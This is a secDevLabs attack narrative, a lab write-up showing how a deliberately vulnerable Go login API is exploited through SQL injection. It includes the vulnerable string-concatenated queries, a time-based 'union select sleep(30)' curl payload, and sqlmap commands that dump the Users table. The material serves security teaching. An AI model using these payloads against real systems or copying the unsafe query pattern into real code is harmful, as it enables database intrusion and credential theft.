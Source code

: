 # Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaster API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.

<img src="attack-0.png" align="center"/>

To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:

<img src="attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:
<img src="attack-2.png" align="center"/>

30 seconds later: 
<img src="attack-3.png" align="center"/>

## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```

<img src="attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
$ sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
$ sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="attack-5.png" align="center"/>

